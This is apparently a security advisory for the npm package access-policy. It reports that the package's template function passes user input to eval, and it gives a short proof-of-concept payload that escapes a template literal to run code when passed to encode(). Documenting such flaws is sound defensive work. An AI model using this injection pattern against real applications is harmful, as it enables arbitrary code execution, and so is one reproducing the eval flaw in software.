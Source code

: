 ## Description

access-policy is a package that encodes and decodes policy JSON files for use with web applications.
Affected versions of this package are vulnerable to Arbitrary Code Execution. User input provided to the <kbd>template</kbd> function is executed by the <kbd>eval</kbd> function resulting in code execution.

## POC

```
var a = require("access-policy");
var statements = '`;console.log(123);//';
data = {};

a.encode(statements,data)
```

 
